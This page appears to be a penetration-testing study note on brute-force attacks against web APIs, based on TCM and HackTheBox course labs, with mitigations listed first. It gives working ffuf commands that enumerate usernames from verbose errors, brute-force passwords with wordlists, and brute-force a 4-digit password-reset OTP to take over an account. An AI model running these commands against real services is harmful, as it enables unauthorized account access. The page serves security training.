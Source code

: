 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# BFAs

{% hint style="info" %}
A Brute Force Attack (BFA) involves systematically trying all possible combinations of credentials (e.g., passwords) or encryption keys until the correct one is found.
{% endhint %}

{% hint style="danger" %}
This can lead to unauthorized access to accounts or systems if strong security measures are not in place, as attackers can eventually guess or discover the correct credential.
{% endhint %}

{% hint style="success" %}
Implement account lockout mechanisms after a number of failed attempts, use multi-factor authentication (MFA), enforce strong password policies, and apply rate limiting or CAPTCHA to prevent rapid, repeated login attempts.
{% endhint %}

## Passwords

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

We might be able to enumerate valid usernames via verbose error messages (Figure 1).

<figure><img src="../../../../.gitbook/assets/bfa_1.png" alt=""><figcaption><p>Figure 1: Enumerating a valid username based on verbose error messages.</p></figcaption></figure>

When a valid username is obtained, we can try brute-forcing its password using Burp's Intruder (Figure 2) or CLI tools, such as [`ffuf`](../../../../tools/web/dirbusting/fuff.md).

<figure><img src="../../../../.gitbook/assets/bfa_2.png" alt=""><figcaption><p>Figure 2: Brute-forcing <code>admin</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing admin's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/rockyou:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"admin","password":"PASS"}' -c -fc 401
```
{% endcode %}

Based on the above verbose error message (`Invalid password`) we can try to enumerate more valid users (Figure 3), and if other users are found, we can repeat the above process to enumerate their passwords (Figure 4).

<figure><img src="../../../../.gitbook/assets/bfa_3.png" alt=""><figcaption><p>Figure 3: Fuzzing for other valid users based on the verbose error message.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Fuzzing for other valid users based on the verbose error message.
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt:USER -X POST -H 'Content-Type: application/json' -d '{
"email":"USER","password":"admin"}' -c -mr "Invalid password!"

________________________________________________
jeremy                  [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 0ms]
admin                   [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 265ms]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/bfa_4.png" alt=""><figcaption><p>Figure 4: Fuzzing <code>jeremy</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing jeremy's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"jeremy","password":"PASS"}' -c -mc 200
```
{% endcode %}

## OTPs

> _The below example is based on HTB's_ [_API Attacks_](https://academy.hackthebox.com/course/preview/api-attacks) _module._

If the password policy is robust enough, we can check if the password reset functionality is vulnerable to BFAs due to weak One Time Passcodes (OTPs) (Figure 5).

<figure><img src="../../../../.gitbook/assets/api_bfa_token_1.png" alt=""><figcaption><p>Figure 5: Getting the required information for brute-forcing the OTP</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing the OTP
$ ffuf -u http://94.237.59.199:45348/api/v1/authentication/customers/passwords/resets -X POST -H 'Content-Type: application/json' -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt:FUZZ -d '{"Email": "MasonJenkins@ymail.com","OTP": "FUZZ","NewPassword": "123456"}' -ac -c -fr ":false" -t 100

0426                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 40ms]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/api_bfa_token_2.png" alt=""><figcaption><p>Figure 6: Successfully logging in.</p></figcaption></figure>
